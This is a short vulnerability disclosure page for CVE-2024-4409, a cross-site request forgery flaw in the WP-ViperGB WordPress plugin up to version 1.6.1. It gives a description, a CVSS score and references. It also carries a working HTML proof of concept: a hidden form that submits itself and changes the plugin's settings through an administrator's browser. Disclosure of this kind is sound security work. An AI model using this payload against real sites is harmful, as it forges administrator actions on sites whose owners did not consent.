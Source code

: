 ```yaml
---
layout: page
title: CVE-2024-4409
subtitle: WP-ViperGB <= 1.6.1 - Cross-Site Request Forgery
---
```

## Description
The WP-ViperGB plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.6.1. This is due to missing or incorrect nonce validation when saving plugin settings. This makes it possible for unauthenticated attackers to change the plugin's settings via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.6.1

## PoC :
```
<html>
  <!-- Made by eneriii<3 - https://x.com/aaillesim -->
  <body>
    <form action="http://[ASSETS]/wp-admin/options-general.php?page=wp-vipergb" method="POST">
      <input type="hidden" name="vgb&#95;page" value="0" />
      <input type="hidden" name="vgb&#95;style" value="Default" />
      <input type="hidden" name="vgb&#95;items&#95;per&#95;pg" value="10" />
      <input type="hidden" name="vgb&#95;show&#95;browsers" value="1" />
      <input type="hidden" name="vgb&#95;show&#95;flags" value="1" />
      <input type="hidden" name="opts&#95;updated" value="1" />
      <input type="hidden" name="Submit" value="Save" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Reference
- https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3091230%40wp-vipergb%2Ftrunk&old=2812759%40wp-vipergb%2Ftrunk&sfp_email=&sfph_mail=
- https://www.cve.org/CVERecord?id=CVE-2024-4409
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wp-vipergb/wp-vipergb-161-cross-site-request-forgery



